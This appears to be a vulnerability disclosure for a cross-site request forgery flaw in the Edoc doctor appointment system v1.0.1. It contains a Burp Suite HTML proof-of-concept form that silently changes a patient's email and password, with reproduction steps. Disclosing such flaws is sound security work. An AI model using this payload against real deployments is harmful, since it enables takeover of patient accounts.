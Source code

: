 # Edoc-doctor-appointment-system v1.0.1  was discovered to cross-site request forgery (CSRF) vulnerability via /patient/settings.php . Allow remote attackers to hijack the authentication of users for requests that cause an unspecified impact via unknown parameters.

PoC

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://www.doctor111.com/patient/edit-user.php" method="POST">
      <input type="hidden" name="id00" value="3" />
      <input type="hidden" name="oldemail" value="dsa&#64;qw&#46;cn" />
      <input type="hidden" name="email" value="dsaaaaaaa&#64;qw&#46;cn" />
      <input type="hidden" name="name" value="w&#32;eesssss" />
      <input type="hidden" name="nic" value="01" />
      <input type="hidden" name="Tele" value="0171234567" />
      <input type="hidden" name="address" value="rew" />
      <input type="hidden" name="password" value="dsa&#64;qw&#46;cn1" />
      <input type="hidden" name="cpassword" value="dsa&#64;qw&#46;cn1" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```





vendor : https://github.com/HashenUdara/edoc-doctor-appointment-system

Vulnerability Position : http://ip/patient/settings.php 



Log in to the http://ip/login.php

Visit http://ip/patient/settings.php  ,  will access the page of the module.



Click the View button.

![image-20220718153048821](.\img\image-20220718153048821.png)



Change name : `qq ww`  to  `hackhack`.

Use burpsuite to capture request packet , and then click the Save button.

![image-20220718153650026](.\img\image-20220718153650026.png)



Generate CSRF PoC in burpsuite.



![image-20220718153756018](.\img\image-20220718153756018.png)



Copy HTML save as test.html.

![image-20220718154658799](.\img\image-20220718154658799.png)



**Attention :** **You must drop this captured request packet after Copy HTML**.



Then open test.html with your Browser , click Submit request button.

![image-20220718155255767](.\img\image-20220718155255767.png)



You will see pop -up window , and your name is `hackhack`

![image-20220718155607311](D:\Pyproject\cve\bug_e\edoc-doctor-appointment-system\img\image-20220718155607311.png)


